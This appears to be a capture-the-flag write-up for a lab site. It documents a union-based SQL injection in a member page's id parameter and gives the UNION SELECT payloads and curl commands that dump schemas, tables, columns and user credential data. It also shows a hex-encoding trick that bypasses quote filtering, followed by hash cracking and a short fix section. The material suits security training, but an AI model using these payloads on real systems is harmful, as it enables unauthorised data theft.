

# Union Based SQL Injection in search member page

## 📖 Vulnerability Explanation
The server uses the URL parameter _id_ to query the database. The input is provided by the user and not sanitized, leading to a potential abuse where SQL statements can be injected to retrieve information (SQLi). 

## ⚙️ Exploitation Process
The methodology we used in this exercise first focuses on gaining situational awareness of the database, and then proceeds to retrieve information.

We decided to present two different methods: one using the input box on the webpage, and the other using ```curl``` in the terminal.

---

**1. Dump databases**

```
0 UNION SELECT 1,schema_name FROM information_schema.schemata; -- -
```

```
curl -s 'http://BornToSec.com/?page=member&id=0+UNION+SELECT+1%2Cschema_name+FROM+information_schema.schemata%3B+--+-&Submit=Submit' | grep pre | python3 -c "from bs4 import BeautifulSoup; import sys; print(BeautifulSoup(sys.stdin.read(), 'html.parser').prettify())" | sed 's/.*<br\/>//' | sed 's/<\/pre>//' | grep -v table | awk '{print $3}'
```

---

**2. Dump tables**

```
0 UNION SELECT table_schema,table_name FROM information_schema.tables; -- -
```

```
curl -s 'http://BornToSec.com/?page=member&id=0+UNION+SELECT+table_schema%2Ctable_name+FROM+information_schema.tables%3B+--+-&Submit=Submit' | grep pre | python3 -c "from bs4 import BeautifulSoup; import sys; print(BeautifulSoup(sys.stdin.read(), 'html.parser').prettify())" | sed 's/.* <br\/>//' | sed 's/<br\/>/\n/' | sed 's/<\/pre>//' | sed 's/First name: /\n[+] Database   : /' | sed 's/Surname : /[-] Table name : /' | grep -v table
```

---

**3. Dump columns of table _users_**

We use the hexadecimal representation of the string _"users"_ to bypass the blocked characters, which are single and double quotes.


```
echo -n 'users' | xxd -p
```

```
0 UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name=0x7573657273; -- -
```

```
curl -s 'http://BornToSec.com/?page=member&id=0+UNION+SELECT+1%2Ccolumn_name+FROM+information_schema.columns+WHERE+table_name%3D0x7573657273%3B+--+-&Submit=Submit' | grep pre | python3 -c "from bs4 import BeautifulSoup; import sys; print(BeautifulSoup(sys.stdin.read(), 'html.parser').prettify())" | sed 's/.* <br\/>//' | sed 's/<br\/>/\n/' | sed 's/<\/pre>//' | sed 's/Surname : //' | grep -v 'First name' | grep -v table
```

---

**4. Read the columns _Commentaire_ and _countersign_**

```
0 UNION SELECT Commentaire,countersign FROM Member_Sql_Injection.users; -- -
```

```
curl -s 'http://BornToSec.com/?page=member&id=0+UNION+SELECT+Commentaire%2Ccountersign+FROM+Member_Sql_Injection.users%3B+--+-&Submit=Submit' | grep pre | python3 -c "from bs4 import BeautifulSoup; import sys; print(BeautifulSoup(sys.stdin.read(), 'html.parser').prettify())" | sed 's/.* <br\/>//' | sed 's/<br\/>/\n/' | sed 's/<\/pre>//' | sed 's/First name: /\n[+] Commentaire : /' | sed 's/Surname : /[-] Countersign : /' | grep -v table
```

---

**5. Crack the hash and craft the flag using the steps provided**

To craft the flag, we must follow the instructions found on the previous step: _```Decrypt this password -> then lower all the char. Sh256 on it and it's good !```_



```
echo -n 'fortytwo' | sha256sum
```

## 🧰 Additional Resources Used
We used ```https://crackstation.net/``` to crack the hash. This page doesn't really _crack_ the hash you provide, but performs a lookup on pre-computed hashes instead.

## 🔧 Fix
To protect against SQLi, it is crutial to always sanitize the users' input before querying the database. It is also possible to use an ORM or library to query the database securely and avoid manual sanitization.

## ☝️🤓 Advanced explanation
In this case, we could get the data from the database on the response page. However, there are many other scenarios that require other techniques to dump the data.

- https://www.acunetix.com/websitesecurity/sql-injection2/

There are many techniques that can be used to bypass filtering and perform SQLi. We faced this issue, as quotes were not working in our injection scenario.

- https://portswigger.net/support/sql-injection-bypassing-common-filters